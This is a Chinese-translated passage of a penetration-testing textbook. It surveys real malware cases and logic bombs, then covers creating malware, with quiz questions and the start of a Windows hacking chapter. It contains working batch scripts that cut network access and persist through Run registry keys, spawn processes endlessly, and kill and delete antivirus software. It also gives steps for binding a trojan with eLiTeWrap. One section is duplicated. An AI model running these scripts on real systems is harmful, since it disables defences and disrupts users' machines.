- http://www.techrepublic.com/pictures/the-18-scariest-computer-viruses-of-all-time/

以下章节将介绍几起真实的病毒爆发事件。我们将研究非常近期的病毒，以及十年前甚至更早的一些案例。这应能为您提供病毒在现实世界中行为的相当完整的概述。

## Rombertik

Rombertik 在 2015 年造成了破坏。这种恶意软件利用浏览器读取用户向网站提供的凭据。它最常作为电子邮件的附件发送。更糟糕的是，在某些情况下，Rombertik 会覆盖硬盘上的主引导记录，使机器无法启动，或开始加密用户主目录中的文件。

## Gameover ZeuS

Gameover ZeuS 是一种创建点对点僵尸网络的病毒。基本上，它在受感染计算机与命令和控制计算机之间建立加密通信，使攻击者能够控制各种受感染计算机。2014 年，美国司法部能够暂时切断与命令和控制计算机的通信；随后在 2015 年，FBI 悬赏 300 万美元征集导致 Evgeniy Bogachev 被捕的线索，因其涉嫌参与 Gameover ZeuS。

命令和控制计算机是僵尸网络中用于控制其他计算机的计算机。它们是僵尸网络将被管理的中心节点。

## CryptoLocker and CryptoWall

勒索软件中最广为人知的例子之一是臭名昭著的 CryptoLocker，最早于 2013 年被发现。CryptoLocker 利用非对称加密锁定用户的文件。已检测到多种 CryptoLocker 变种。

CryptoWall 是 CryptoLocker 的一种变种，最早于 2014 年 8 月被发现。它的外观和行为与 CryptoLocker 非常相似。除了加密敏感文件外，它还会与命令和控制服务器通信，甚至截取受感染机器的屏幕截图。到 2015 年 3 月，已发现一种 CryptoWall 变种，它捆绑了间谍软件 TSPY_FAREIT.YOI，除了勒索文件外，还会窃取受感染系统的凭据。

## FakeAV

该病毒首次出现在 2012 年 7 月。它影响的 Windows 系统范围从 Windows 95 到 Windows 7 以及 Windows Server 2003。这是一种假的防病毒软件（因此得名 FakeAV），会弹出虚假的病毒警告。这并不是第一种此类假防病毒恶意软件，但它是较近期的其中之一。

## MacDefender

该病毒因多种原因非常有趣。首先，它专门针对 Mac 计算机。大多数专家长期以来一致认为，苹果产品相对免受病毒侵害，仅仅是因为其产品市场份额不足以吸引病毒编写者的注意。长期以来一直怀疑，如果苹果获得更大的市场份额，也会开始遭受更多病毒攻击。事实证明是正确的。

该病毒首次出现在 2011 年初。它嵌入在某些网页中，当用户访问其中一个网页时，会收到一次虚假的病毒扫描，告知其已感染病毒且需要修复。该“修复”实际上是下载病毒。该病毒的目的是让终端用户购买 MacDefender“防病毒”产品。这是该案例值得注意的第二个原因。假防病毒攻击，也称为 scareware，已变得越来越常见。

## Troj/Invo-Zip

这种特定的蠕虫是一种经典的蠕虫/特洛伊木马，最早于 2010 年中期被报告。它作为电子邮件附件的 zip 文件传播。电子邮件声称 zip 文件包含与发票、税务问题或类似紧急文件相关的数据。这是诱使收件人打开附件的经典例子。在这种情况下，最有可能被诱惑的收件人将是商人。

如果收件人确实打开了附件，那么他就会在其机器上安装间谍软件，该软件首先会禁用防火墙，然后开始尝试捕获信息，包括财务数据。它甚至会截取用户桌面的屏幕截图。

## Teardrop Ransomware

Teardrop Ransomware 最早于 2016 年出现，该勒索软件针对 Windows 版 Pokemon Go 应用程序，并针对阿拉伯用户。

它扫描驱动器中的敏感文件（任何文档、电子表格、图像或数据库），并使用 AES 对其进行加密，并在文件后附加 .locked 扩展名。然后受害者会被指示发送电子邮件至 me.blackhat20152015@mt2015.com 以获取付款说明。它还会添加一个后门 Windows 账户，将可执行文件传播到其他驱动器，并创建网络共享。

然后它通过配置以下 Windows 注册表项来隐藏该账户，使其不会在 Windows 登录屏幕上显示：KEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList “Hack3r” = 0。

它还在受感染计算机上添加网络共享。目前尚不清楚该共享的用途。

## Flame

没有 Flame 的讨论，现代病毒讨论就不完整。这种病毒首次出现在 2012 年，针对 Windows 操作系统。使该病毒值得注意的第一点是，它是由美国政府专门为间谍活动设计的。许多来源，包括《华盛顿邮报》、英国《每日电讯报》和路透社，都表示 Flame 是由美国政府创建的。它于 2012 年 5 月在多个地点被发现，包括伊朗政府网站。Flame 是一种间谍软件，可以监控网络流量并截取受感染系统的屏幕截图。

## Trojan Horses

回顾前几章，*Trojan horse* 是指看起来无害但实际上具有恶意目的的程序的术语。我们已经看到通过特洛伊木马传播的病毒。您可能会收到或下载一个看起来像是无害的业务实用程序或游戏的程序。更可能的是，特洛伊木马只是附加在看起来无害的电子邮件上的脚本。当您运行程序或打开附件时，它会做一些与您认为它会做的不同的事情，或除此之外的事情。它可能会

- 从网站下载有害软件。
- 在您的机器上安装键盘记录器或其他间谍软件。
- 删除文件。
- 为黑客打开后门。

组合病毒加特洛伊木马攻击很常见。在这些情况下，特洛伊木马像病毒一样传播。MyDoom 病毒在您的机器上打开了一个端口，后来的病毒 doomjuice 会利用该端口，从而使 MyDoom 成为组合病毒和特洛伊木马。

特洛伊木马也可以专门为个人定制。如果黑客想监视某个人，例如公司会计，他可以制作一个专门吸引该人注意的程序。例如，如果他知道会计是狂热的高尔夫球手，他可以编写一个计算差点并列出最佳高尔夫球场的程序。他会将该程序发布在免费的网络服务器上。然后他会向包括会计在内的许多人发送电子邮件，告诉他们有关免费软件的信息。软件一旦安装，可以检查当前登录人员的姓名。如果登录名与会计的姓名匹配，软件就可以在用户不知情的情况下出去下载键盘记录器或其他监控应用程序。如果软件不损坏文件或自我复制，那么它很可能会在相当长的时间内未被发现。多年来出现了许多特洛伊木马。其中最早且最广为人知的一个是 Back Orifice。

这样的程序可能在几乎任何中等熟练程序员的能力范围内。这就是许多组织禁止在公司机器上下载任何软件的原因之一。我不知道有任何特洛伊木马以这种方式量身定制的实际事件。然而，重要的是要记住，制造病毒攻击的人往往是创新的人。

还要注意的是，创建特洛伊木马不需要编程技能。互联网上有免费工具，例如 EliteWrapper，允许某人将两个程序组合在一起，一个隐藏一个不隐藏。因此，人们可以轻松地将病毒与例如扑克游戏组合起来。最终用户只会看到扑克游戏，但当它运行时会启动病毒。

另一个需要考虑的场景是相当毁灭性的。在不透露编程细节的情况下，这里将概述基本前提，以说明特洛伊木马的严重危险。想象一个小应用程序，显示一系列拉登·本·拉登的难看照片。该应用程序可能在美国许多人中很受欢迎，特别是军事、情报界或国防相关行业的人。现在假设该应用程序在机器上处于休眠状态一段时间。它不需要像病毒一样复制，因为计算机用户可能会将其发送给许多同事。在某个日期和时间，软件连接到它能连接的任何驱动器，包括网络驱动器，并开始删除所有文件。如果这样的特洛伊木马在“野外”发布，30 天内它可能会被发送给数千人，也许是数百万人。想象一下，当成千上万台计算机开始删除文件和文件夹时会造成多大的破坏。

这个场景被提及正是为了让你有点害怕。计算机用户，包括应该知道得更好的人，经常从互联网上下载各种东西，例如有趣的 flash 视频和可爱的小游戏。每当员工下载此类东西时，就有下载特洛伊木马的风险。一个人不必是统计学家就能意识到，如果员工继续这种做法足够长的时间，他们最终会将特洛伊木马下载到公司机器上。如果他们这样做了，希望病毒不会像上面概述的理论病毒那样凶猛。

由于特洛伊木马通常是由用户自己安装的，对此攻击的安全对策是防止终端用户下载和安装。从执法角度来看，涉及特洛伊木马的犯罪调查将涉及对计算机硬盘进行取证扫描，寻找特洛伊木马本身。


## 其他形式的恶意软件

本章讨论了最突出的恶意软件形式。然而，还存在许多其他形式的攻击。超出本书范围去探讨每一种，但你应该意识到这些其他形式的恶意软件的存在。仅仅保持 aware 就能在很大程度上帮助你高效地防御系统。本节将仅涉及几种其他形式的恶意软件。

### Rootkit

一个 *Rootkit* 是用于获得计算机或计算机网络管理员级别访问权限的软件。入侵者在先获得用户级别访问权限后安装 Rootkit 到计算机上，要么是通过利用已知漏洞，要么是通过破解密码。或者 Rootkit 可以像任何病毒一样被投递。然后 Rootkit 收集网络上其他机器的用户 ID 和密码，从而给予黑客 root 或特权访问权限。

Rootkit 可能包含以下实用程序：

- 监控流量和击键
- 为黑客使用而在系统中创建后门
- 修改日志文件
- 攻击网络上的其他机器
- 修改现有系统工具以规避检测

网络上 Rootkit 的存在首次在 1990 年代初期被记录。当时，Sun 和 Linux 操作系统是黑客安装 Rootkit 的主要目标。如今，Rootkit 可用于多种操作系统，并且在任何网络上都越来越难以检测。

### 恶意基于 Web 的代码

一个 *恶意基于 Web 的代码*，也称为 *基于 Web 的移动代码*，简单指代一种可移植到所有操作系统或平台的代码，如 HTTP、Java 等。“恶意” 部分意味着它是病毒、蠕虫、特洛伊木马或其他形式的恶意软件。简单来说，恶意代码不关心使用的是什么操作系统或什么浏览器。它会盲目感染所有系统。

这些代码来自哪里，又是如何传播的？互联网的第一代主要是索引文本文件。然而，随着互联网发展成为图形化、多媒体的用户体验，程序员创建了脚本语言和新的应用程序技术以实现更具交互性的体验。与任何新技术一样，用脚本语言编写的程序从有用到制作粗糙再到 outright 危险不等。

Java 和 ActiveX 等技术使这些有 bug 或不可信的程序能够移动到用户工作站并在上面执行。（其他可启用恶意代码的技术包括可执行文件、JavaScript、Visual Basic Script 和插件。）Web 的作用是增加代码的移动性，而不区分程序的质量、完整性或可靠性。使用可用工具，将代码“拖放”到随后放置在 Web 服务器上并供组织内员工或互联网上个人使用的文档中非常简单。如果此代码被恶意编程或只是测试不当，可能造成严重损害。

毫不奇怪，黑客已使用这些非常有用的工具来窃取、篡改和擦除数据文件，以及获得对企业网络的未经授权的访问。恶意代码攻击可以从多种访问点渗透企业网络和系统，包括网站、电子邮件中的 HTML 内容或企业内部网。

如今，随着数十亿互联网用户，新的恶意代码攻击几乎可以瞬间在企业中传播。恶意代码造成的绝大多数损害发生在首次攻击发生后的最初几个小时——在采取对策之前。网络停机或知识产权（IP）被盗的成本使得恶意代码成为首要优先事项。

### 逻辑炸弹

逻辑炸弹是一种恶意软件，当满足特定条件时会执行其恶意目的。最常见的因素是日期/时间。例如，逻辑炸弹可能会在特定日期/时间删除文件。一个例子是 Roger Duronio 的案例。2006 年 6 月，UBS 的系统管理员 Roger Duronio 被指控使用逻辑炸弹破坏公司计算机网络。他的计划是通过逻辑炸弹造成的损害拉低公司股价，因此他被控证券欺诈。Duronio 后来被定罪，被判处 8 年 1 个月监禁，并被命令向 UBS 支付 310 万美元赔偿。

另一个例子发生在抵押贷款公司房利美。2008 年 10 月 29 日，公司系统中发现了一个逻辑炸弹。这个逻辑炸弹是由已被解雇的前承包商 Rajendrasinh Makwana 植入的。炸弹设定于 2009 年 1 月 31 日激活并完全抹除公司所有服务器。Makwana 于 2009 年 1 月 27 日在马里兰法院因未经授权的计算机访问被起诉。2010 年 12 月 17 日，他被定罪，被判处 41 个月监禁，出狱后缓刑 3 年。这个案例最有趣的是，Makwana 在被解雇和网络管理员取消其网络访问权限之间植入了逻辑炸弹。

这说明了确保前员工账户在其雇佣关系终止时立即停用的重要性。无论是被迫解雇、退休还是自愿离职都适用。

### 创建恶意软件

本节探讨了多种可让你创建各种类型恶意软件的方法。需要注意的是，这应该谨慎进行。作为渗透测试人员，我们的目标不是破坏目标网络——恰恰相反。学习基础恶意软件编写技能有两个原因。第一个原因是让你更好地理解恶意软件带来的威胁。如果你能自己编写一个简单的病毒，那么你就知道它有多容易做到，并且理解为什么恶意软件如此普遍。第二个原因是，在某些情况下，无害的恶意软件可以作为渗透测试的一部分发挥作用。在我们研究各种示例时，我会指出将恶意软件用作渗透测试一部分的场景，以及永远不应使用的场景。

在后面的章节中，我们将花费大量时间探索 Metasploit。这也将给你机会将漏洞利用嵌入 PDF、可执行文件和其他文件中，从而有效地创建恶意软件。

### 恶意软件编写技能水平

正如你所想象的，仅仅阅读一本书中的一章并不会让你成为恶意软件创建的大师。要真正掌握编写恶意软件，你需要大量的编程专业知识；然而，在本章中我们将探索一些基本技术。但首先让我们定义恶意软件创建者的技能水平。

- 1. 最低技能水平是使用 GUI 工具的人。事实上，有各种各样的工具可用于创建简单的恶意软件。任何人都可以从互联网下载这些工具，并在短短几分钟内创建自己的恶意软件。这完全不需要编程技能。然而，需要注意的是，以这种方式创建的恶意软件有很大几率会被防病毒软件检测到。
- 2. 更高一级的是使用批处理文件和简单脚本的人。这些需要基础的脚本编写技能，非常基础的编程。它们可能被防病毒软件检测到，也可能不会。它们在渗透测试中通常很有用。
- 3. 第三级是那些获取现有恶意软件代码并对其进行修改的人。存在多个在线存储库，可以从中下载知名病毒如 *Melissa* 和 *I Love You* 的源代码。然后你只需要做少量修改即可创建自己的病毒。
- 4. 第四级涉及更实质性的编程，因为你从头开始创建整个病毒。这样一种新病毒不太可能被防病毒软件检测到，至少起初是这样。
- 5. 最高水平是创建既隐蔽又在不再需要时自我销毁的恶意软件。显然，这需要复杂的编程技能，且远不常见。


前面的技能列表层级是我自己的创作，但我觉得相当有用。需要注意的是，恶意软件作者的技能水平与所生产的恶意软件的复杂程度成正比。

## GUI 工具

有一些工具具有图形用户界面（GUI），可以快速轻松地创建基本病毒。需要注意的是，这些工具通常生成的病毒并不隐蔽，很可能被防病毒软件检测到。其中最著名的工具之一是 TeraBIT Virus Maker，见图 5-5。



图 5-5 TeraBIT 病毒制造器。

另一个有趣的 GUI 病毒制造器是来自 BlackHost 的 Virus Maker http://www.blackhost.xyz，见图 5-6。这个工具有几个有趣的地方。除了常规功能（如更改鼠标行为）之外，它还可以打开网站。这使其在渗透测试中很有用。你可以让它简单地打开一个网站，说明为什么在使用附件时应谨慎。



图 5-6 病毒制造器。

不太良性的功能包括启动批处理文件（我们在下一节中研究批处理文件病毒）、更改密码、删除文件或启动程序的能力。

还有许多其他此类工具包，包括：

- Deadly Virus Maker
- Bhavesh Virus Maker
- DeadLine’s Virus Maker

此类工具的存在有助于解释为什么病毒如此普遍。即使某人没有任何编程技能，也很容易创建病毒。

## 简单脚本病毒

脚本和批处理文件非常容易编写。它们不需要重要的编程技能，几乎任何具有 rudimentary 技能的人都可以编写病毒。即使没有此类技能，也很容易获得足够的脚本编写技能。本节展示了其中一些。

## VBS 病毒

这种病毒对于渗透测试特别有用，因为它不会对目标计算机造成伤害。相反，它只是通过指出他们下载了附件来让计算机操作员感到尴尬：

```vb
Dim msg, sapi
msg="You have violated security policies"
Set sapi=CreateObject("SAPI.SpVoice")
sapi.Speak msg
```

当然，你可以根据需要更改消息。稍微在网上调查一下 Microsoft Speech API 也会向你展示一些可以考虑的额外变体。其中一些是

```vb
sapi.Volume = 100
sapi.Voice = sapi.GetVoices.Item(0)
```

这些只是修改它的几种方法。这是一个 VBScript，因此你应该将其保存为 .vbs 文件。你正在测试的概念是用户是否会点击附件，特别是脚本附件。

## 禁用 Internet

Windows 的批处理文件也是病毒创建的载体。一系列批处理命令可以像你可能见过的任何其他恶意软件一样对机器造成严重破坏。这里只是一个例子，一个关闭所有 Internet 连接的批处理文件：

```bat
echo @echo off > c:\windows\winmm32.bat
echo break off >> c:\windows\winmm32.bat
echo ipconfig /release_all >> c:\windows\winmm32.bat
echo end >> c:\windows\winmm32.bat
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v WINDOWSAPI /t REG_SZ /d c:\windows\winmm32.bat /f
reg add HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v CONTROLEXit /t REG_SZ /d c:\windows\winmm32.bat /f
```

请注意，此批处理文件会将它正在执行的操作回显到屏幕上。如果你希望它在某人的计算机上运行，你可能希望关闭它。

## 无限循环脚本

这是最简单的脚本之一。它只是无限启动某个特定可执行文件，消耗系统资源：

```bat
@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top
```

你可以使用 notepad、calc，任何你喜欢的。但它会一直启动副本，直到系统锁定。

## 反病毒杀手

此特定批处理文件只有在执行该文件的人具有本地管理员权限时才有效。但幸运的是，对于恶意软件编写者来说，许多人在使用管理员权限登录时进行日常计算机活动。

此批处理文件依赖于 tskill 命令，该命令将结束一个进程。你可以使用进程 ID 或进程名称。例如，以下内容将杀死反病毒进程：

```
tskill /A ZONEALARM
tskill /A mcafe*
```

这可以随后使用 del 来删除该反病毒的文件，例如：

```
del /Q /F C:\Program Files\kasper~1\*.exe
del /Q /F C:\Program Files\kaspersky\*.*
Note /Q Quiet mode, do not give a Yes/No Prompt before deleting.
/F Ignore read-only setting and delete anyway (FORCE)
```

Windows 的后期版本不支持 tskill，但会支持相关的命令 taskkill。taskkill 实际上比 tskill 更强大，因此你可能希望无论如何都使用它。

参数列于此处：

- **/s Computer:** 你可以指定计算机名称或 IP 地址并尝试在其上杀死任务。默认值为当前计算机。
- **/u User:** 这将在特定用户的权限下运行命令。你需要与此一起使用 /p password。
- **/pid:** 你希望杀死的任务的进程 ID。
- **/im:** 映像名称（即可执行文件名）。
- **/t:** 终止你要杀死的进程的所有子进程。

你可能不希望对恶意软件使用批处理文件。实际上，将批处理文件转换为可执行文件相当简单。网站 http://www.blackhost.xyz 有批处理到 exe 免费下载。

## PowerShell

PowerShell 是 Windows 的一个精彩补充。它是 Microsoft 尝试匹配 Linux Bash shell 强大功能的尝试。它首次随 Windows 7 引入，并在所有后续版本的 Windows 上都有。它是管理员用于执行各种 Windows 功能的强大工具。它也可以用于黑客攻击。

在 Windows 7 或 Windows Server 2008 中，你可以通过 开始 > 所有程序 > 附件 > Windows PowerShell 进入 PowerShell。在 Windows 8 或 10 中，你只需在搜索框中输入“Powershell”。你可以在图 5-7 中看到 PowerShell 界面。



图 5-7 PowerShell。

以下是一个相当烦人但简单的 PowerShell 病毒脚本：

```
Set wshShell = WScript.CreateObject("WScript.Shell")
do
wscript.sleep 100
wshshell.sendkeys "~(enter)"
loop
```

它每 100 毫秒按下一次 Enter 键。你可以用任何其他键替换它。

## 创建特洛伊木马

有一些工具，其中一些可免费下载，可以帮助某人创建特洛伊木马。我在渗透测试课程中使用的其中一个是 eLiTeWrap。请注意，在互联网上找到它需要进行一些搜索；其位置不稳定。它很容易使用。从本质上讲，它可以将任意两个程序绑定在一起。使用此类工具，任何人都可以将病毒或间谍软件绑定到无害的程序，例如共享软件扑克游戏。这将导致大量人下载他们认为的免费游戏并在不知不觉中在其自己的系统上安装恶意软件。图 5-8 说明了特洛伊木马组件。



图 5-8 特洛伊木马组件。

eLiTeWrap 工具是一个命令行工具，但它非常易于使用。只需按照以下步骤操作：

步骤 1. 输入你想要运行且可见的文件。

步骤 2. 输入操作：

- 1. 仅打包
- 2. 打包并执行，可见，异步
- 3. 打包并执行，隐藏，异步
- 4. 打包并执行，可见，同步
- 5. 打包并执行，隐藏，同步
- 6. 仅执行，可见，异步
- 7. 仅执行，隐藏，异步
- 8. 仅执行，可见，同步
- 9. 仅执行，隐藏，同步

步骤 3. 输入命令行。

步骤 4. 输入第二个文件（你秘密安装的项目）。

步骤 5. 输入操作。

步骤 6. 完成文件后，按 Enter。

图 5-9 在 eLiTeWrap 中说明了此过程。



图 5-9 eLiTeWrap。


这是为了说明创建特洛伊木马是多么容易而提供的示例，并非鼓励你这样做。了解这一过程是多么容易非常重要，这样你才能理解恶意软件的普遍性。任何附件或下载都应被视为高度可疑。

## 修改现有病毒

已存在大量病毒。对于病毒编写者来说，最自然的做法就是取一个现有病毒并简单地修改其代码。互联网上存在病毒源代码存储库，可以在其中下载现有病毒的代码并进行修改。其中最知名的病毒存储库之一位于 http://vxer.org/。还有其他存储库，也有网站提供单个病毒的代码供你下载和查看。

具备基础编程技能的有志成为病毒编写者的人可以简单地取用此类代码并修改它来创建新病毒。这再次说明创建病毒是多么容易，也是恶意软件爆发如此频繁的一个原因。

## 摘要

本章详细介绍了恶意软件。我们回顾了恶意软件的历史以及各种分类。我们还研究了如何创建病毒或特洛伊木马。必须指出，此类活动本质上是危险的，只有在采取重大安全预防措施的情况下才应进行。

## 测试你的技能

### 多项选择题

1. 以下哪一项是对病毒的最佳定义？
   A. 对计算机造成损害的程序
   B. 用于 DoS 攻击的程序
   C. 减慢网络速度的程序
   D. 自我复制的程序
2. 特洛伊木马的最佳定义是什么？
   A. 自我复制的软件
   B. 损坏系统的软件
   C. 通过与合法软件捆绑来隐藏的恶意软件
   D. 破坏操作系统
3. 病毒传播最常见的方式是什么？
   A. 复制到共享文件夹
   B. 电子邮件附件
   C. FTP
   D. 从网站下载
4. 以下哪一项是 Microsoft Outlook 经常成为病毒攻击目标的主要原因？
   A. 许多黑客不喜欢微软。
   B. Outlook 复制病毒文件更快。
   C. 编写访问 Outlook 内部机制的程序很容易。
   D. Outlook 比其他电子邮件系统更常见。
5. 哪种类型的病毒仅间歇性活动以避免被检测？
   A. 加密病毒
   B. 稀疏感染病毒
   C. 多态病毒
   D. 启动扇区病毒
6. 哪种类型的病毒感染文件和启动扇区？
   A. 加密病毒
   B. 稀疏感染病毒
   C. 多部分病毒
   D. 启动扇区病毒
7. 哪种类型的恶意软件拒绝访问机器？
   A. 勒索软件
   B. Rootkit
   C. 锁定程序
   D. 多部分病毒
8. ___ 是用于获取计算机或计算机网络管理员级访问权限的软件。
   A. Rootkit
   B. 特洛伊木马
   C. 病毒
   D. 缓冲区溢出
9. 第一款勒索软件是什么？
   A. CryptoLocker
   B. Melissa
   C. PC Cyborg 木马
   D. Rombertik
10. 以下哪一项是任何人都可以用来防范病毒攻击的方法？
    A. 设置防火墙。
    B. 使用加密传输。
    C. 使用安全的电子邮件软件。
    D. 切勿打开未知电子邮件附件。

## 项目

请注意这些项目可能有害。这些只能在实验室计算机上进行，软件不得通过电子邮件发送、复制到便携设备或以任何方式分发。

### 项目 1

使用本章所示的脚本创建一个 VBScript，使其说出某个短语。你也可以查看语音 API 以寻找更多选项：https://msdn.microsoft.com/en-us/library/ms723602(v=vs.85).aspx。

### 项目 2

使用本章介绍的两种 GUI 病毒制作工具之一创建一个无害的病毒。例如，创建一个仅打开给定网站的病毒，或禁用记事本。在 Windows 的各个版本上尝试此操作，看看它是如何工作的。

# 第 6 章

### 入侵 Windows

### 章节目标

阅读本章并完成练习后，你将能够做到以下几点：
- 了解 Windows 操作系统的基础知识
- 具备 Windows 密码存储的工作知识
- 了解几种黑客攻击 Windows 的技术

在本章中，我们将研究用于入侵 Windows 系统的具体技术。由于 Windows 是一个无处不在的操作系统，这些技能对于渗透测试人员来说尤其重要。我们将首先研究 Windows 操作系统，并确保你具备 Windows 的工作知识。黑客攻击的现实是，你对所攻击系统的理解越透彻，你就越成功。这对于渗透测试同样适用。反之亦然。你对系统的理解越少，你的测试就越不完整和准确。

还应注意，我们将在第 13 章“Introduction to Metasploit”和第 14 章“More with Metasploit”中稍后研究 Metasploit。那时你将看到额外的 Windows 黑客技术。本章的目标是确保你具备 Windows 的基本工作知识，并熟悉基本的 Windows 黑客技术。

### Windows 细节

在深入研究 Windows 渗透测试之前，了解操作系统本身是个好主意。在本节中，你将了解 Windows 的历史及其结构。有关 Windows 内部更深入的介绍，请参阅 Mark E. Russinovich 和 Aaron Margosis 所著的书籍 Windows Sysinternals Administrator’s Reference。

### Windows 历史

Windows 在 1992 年发布版本 3.1 时成为主流。当时，Windows 是一个图形用户界面（GUI），而不是真正的操作系统。操作系统是磁盘操作系统（DOS）。Windows 通过鼠标点击而不是输入 DOS 命令来提供与操作系统交互的视觉界面。

对于服务器和 IT 专业人员，微软拥有 Windows NT 版本 3.1、3.51 和 4.0，这些版本被广泛使用。每个版本都有工作站版和服务器版。Windows 的 NT 版本被广泛认为比 Windows 3.1 更稳定、更安全。

Windows 95 于 1995 年发布，标志着 Windows 的变化。此时，底层操作系统和 GUI 不再是单独的项目。它们是一个产品。这意味着 GUI 就是操作系统。Windows 95 发布后不久，Windows NT 4.0 就发布了。许多人认为 Windows 98 只是一个中间步骤，是对 Windows 95 的改进。界面看起来与 Windows 95 非常相似，但性能有所提高。Windows 95 和 98 使用 FAT32 文件系统。

Windows 2000 被广泛认为是对 Windows 系列的重大改进。本质上，独立的 NT 和 Windows 系列的日子已经结束。现在将只有 Windows 2000 的不同版本。有面向家庭用户、专业用户和服务器的版本。版本之间的差异主要在于可用功能和容量，例如可以寻址多少随机访问内存（RAM）。Windows 2000 也是微软开始推荐 NTFS 而非 FAT32 作为文件系统的 Windows 版本。

Windows XP 是微软的下一个里程碑，Windows Server 2003 同年发布。这标志着回归拥有独立服务器和桌面系统的方案（与 Windows 2000 不同）。界面没有太大不同，但结构有所改进。

Windows Vista 和 Windows 7 与 XP 的用户界面没有显著不同。功能有所变化并增加了额外功能，但本质上界面在每个版本中都进行了适度调整。Windows Server 2008 与 Windows Server 2003 的关系也可以这样说。熟悉 Windows Server 2003 的人使用 Windows Server 2008 不会有任何问题。事实上，Windows Server 下一次重大的开发变化是 Windows Server 2012。界面有些不同，并且有更多不同类型安装的选项。

Windows 8 是一个激进的变化。操作系统旨在更像平板电脑。你可以进入一个看起来很像 Windows 7 的桌面，但 Windows 8 的默认行为是平板电脑式的。

Windows 10 是 Windows 的另一个巨大变化。Cortana 和 Edge 浏览器等新功能改变了用户与 Windows 操作系统交互的方式，在某些情况下也改变了你进行渗透测试的方法。Windows Server 2016 也在大约同一时间推出。


## A Brief History of Windows

- 1985 Windows 1.0 发布
- 1990 Windows 3.0
- 1992 Windows 3.1
- 1995 Windows 95
- 1996 Windows NT 4.0
- 1998 Windows 98
- 2000 Windows 2000
- 2001 Windows XP（首个 64 位版本）
- 2003 Windows Server 2003
- 2007 Windows Vista 正式发布
- 2008 Windows Vista Home Basic、Home Premium、Business 和 Ultimate；Windows Server 2008
- 2009 Windows 7 和 Windows Server 2008 R2
- 2012 Windows 8 和 Windows Server 2012
- 2013 Windows Server 2012 R2
- 2015 Windows 10
- 2016 Windows Server 2016

这段简短的历史和 Windows 概述应能为您提供理解 Windows 的背景。

## The Boot Process

操作系统的[content]
## A Brief History of Windows

- 1985 Windows 1.0 发布
- 1990 Windows 3.0
- 1992 Windows 3.1
- 1995 Windows 95
- 1996 Windows NT 4.0
- 1998 Windows 98
- 2000 Windows 2000
- 2001 Windows XP（首个 64 位版本）
- 2003 Windows Server 2003
- 2007 Windows Vista 正式发布
- 2008 Windows Vista Home Basic、Home Premium、Business 和 Ultimate；Windows Server 2008
- 2009 Windows 7 和 Windows Server 2008 R2
- 2012 Windows 8 和 Windows Server 2012
- 2013 Windows Server 2012 R2
- 2015 Windows 10
- 2016 Windows Server 2016

这段简短的历史和 Windows 概述应能为您提供理解 Windows 的背景。

## The Boot Process

操作系统的任何重要部分都是引导过程。为了真正理解 Windows，您必须至少对系统如何启动有所了解。以下是基本过程的总结：

- 1. BIOS 执行加电自检（POST）。此时系统的基本输入/输出系统（BIOS）会检查驱动器、键盘和其他关键项目是否存在且工作正常。这发生在任何操作系统组件加载之前。
- 2. 计算机读取主引导记录（MBR）和分区表。
- 3. MBR 定位引导分区。这是包含操作系统的分区。
- 4. MBR 将控制权传递给引导分区上的引导扇区。
- 5. 引导扇区加载 NTLDR。NTLDR 是 NT 加载程序；它是 Windows 操作系统的第一部分，负责准备和加载操作系统的其余部分。
- 6. 请注意，如果 Windows 不是关机而是进入休眠状态，则 hiberfil.sys 的内容会被加载到内存中，系统将从之前的状态恢复。
- 7. NTLDR 根据系统从实模式切换到 32 位内存或 64 位。实模式是 x86 系统的默认模式。它不提供内存保护、多任务或代码特权级别的支持。
- 8. NTLDR 启动最小文件系统驱动程序（FAT、FAT32、NTFS）。
